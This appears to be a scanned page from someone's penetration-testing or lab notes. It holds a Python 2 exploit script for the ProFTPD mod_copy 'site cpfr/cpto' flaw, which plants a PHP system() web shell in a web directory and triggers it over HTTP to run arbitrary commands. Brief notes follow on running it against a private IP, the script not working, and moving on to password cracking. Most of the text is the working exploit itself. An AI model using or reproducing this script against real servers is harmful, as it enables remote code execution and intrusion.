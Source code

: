 print banner

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

if(len(sys.argv) < 4):

    print '\n Usage : exploit.py server directory cmd'

else:

        server = sys.argv[1] #Vulnerable Server

        directory = sys.argv[2] # Path accessible from web .....

        cmd = sys.argv[3] #PHP payload to be executed

        evil = '<?php system("' + cmd + '") ?>'

        s.connect((server, 21))

        s.recv(1024)

        print '[ + ] Connected to server [ + ] \n'

        s.send('site cpfr /etc/passwd')

        s.recv(1024)

        s.send('site cpto ' + evil)

        s.recv(1024)

        s.send('site cpfr /proc/self/fd/3')

        s.recv(1024)

        s.send('site cpto ' + directory + 'infogen.php')

        s.recv(1024)

        s.close()

        print '[ + ] Payload sended [ + ]\n'

        print '[ + ] Executing Payload [ + ]\n'

        r = requests.get('http://' + server + '/infogen.php') #Executing PHP payload through HTTP

        if (r.status_code == 200):

                print '[ * ] Payload Executed Succesfully [ * ]'

        else:

                print ' [ - ] Error : ' + str(r.status_code) + ' [ - ]'

  

print '\n [http://infogen.al/'⏎](http://infogen.al/%27%E2%8F%8E)

running python2 192.168.199.107 . whoami connects but nothing happens. (Also very annoying that the python version doesn't auto switch between 2 and three since some exploits were written in 2 while others 3 but one can only tell by looking at the code itself. 

Trying the other one then back to cracking (In hindsight it's better to set up cracking first before other activities)
